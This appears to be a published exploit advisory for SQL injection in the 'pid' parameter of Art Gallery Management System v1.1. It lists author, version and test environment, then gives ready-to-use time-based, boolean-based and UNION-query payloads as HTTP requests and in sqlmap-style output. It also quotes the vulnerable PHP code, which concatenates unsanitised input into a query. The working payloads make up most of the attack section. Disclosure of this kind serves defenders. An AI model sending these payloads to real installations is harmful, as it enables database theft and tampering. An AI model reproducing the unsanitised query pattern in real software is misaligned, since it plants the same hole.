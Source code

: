 ```yaml
---
title: Art Gallery Management System Project v1.1 - SQL Injection
published: true
---
```


- Exploit Title: Art Gallery Management System Project v1.1 - SQL Injection
- Application: Art Gallery Management System 
- Google Dork: N/A
- Date: 16.03.2024
- Bugs: SQL Injection 
- Exploit Author: SoSPiro
- Vendor Homepage: https://phpgurukul.com/
- Software Link: https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/
- Version: 1.1
- Tested on: Windows 10 64 bit Wampserver 

----

### Vulnerability Description:

The vulnerability exists in the `single-product.php` file of AGMS,
where user inputs are not properly filtered or sanitized, allowing for direct insertion into SQL queries.
Particularly, the pid parameter allows user input, enabling attackers to inject malicious SQL code.



### Proof of Concept (PoC):

- Below are examples demonstrating the SQL injection vulnerability in AGMS:

1: **Time Based Blind SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=1'+AND+(SELECT+9007+FROM+(SELECT(SLEEP(5)))zFTQ)--+mMJh HTTP/1.1
```
2: **Boolean-Based blind SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=-9570'+OR+9622%3d9622--+aVjE HTTP/1.1
```
3: **UNION Query SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=1'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,
CONCAT(0x71716b7671,0x4e54625a41616c594e416443545a424f765177596b4d436155664a6766446e5154665748514f437a,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
```

- Poc Foto

![This is an alt text.](/assets/zday/raJ8Cp9.png "poc foto")

### Vulnerability Types:

```
---
Parameter: pid (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: pid=-9570' OR 9622=9622-- aVjE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=1' AND (SELECT 9007 FROM (SELECT(SLEEP(5)))zFTQ)-- mMJh

    Type: UNION query
    Title: Generic UNION query (NULL) - 22 columns
    Payload: pid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71716b7671,0x4e54625a41616c594e416443545a424f765177596b4d436155664a6766446e5154665748514f437a,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```


### Impact

This vulnerability enables malicious actors to execute various harmful actions,
including session hijacking, data exfiltration, and tampering with database structures.



### Vulnerable code section:
====================================================

`Art-Gallery-MS-PHP/agms/single-product.php/single-product.php`
```
$pid=$_GET['pid'];

$ret=mysqli_query($con,"select tblarttype.ID as atid,tblarttype.ArtType as typename,tblartmedium.ID
as amid,tblartmedium.ArtMedium as amname,tblartproduct.ID as apid,tblartist.Name,tblartproduct.Title,
tblartproduct.Dimension,tblartproduct.Orientation,tblartproduct.Size,tblartproduct.Artist,
tblartproduct.ArtType,tblartproduct.ArtMedium,tblartproduct.SellingPricing,tblartproduct.Description,
tblartproduct.Image,tblartproduct.Image1,tblartproduct.Image2,tblartproduct.Image3,tblartproduct.Image4,
tblartproduct.RefNum,tblartproduct.ArtType from tblartproduct join tblarttype on tblarttype.ID=tblartproduct.ArtType 
join tblartmedium on tblartmedium.ID=tblartproduct.ArtMedium join tblartist on tblartist.ID=tblartproduct.Artist where tblartproduct.ID='$pid'");
```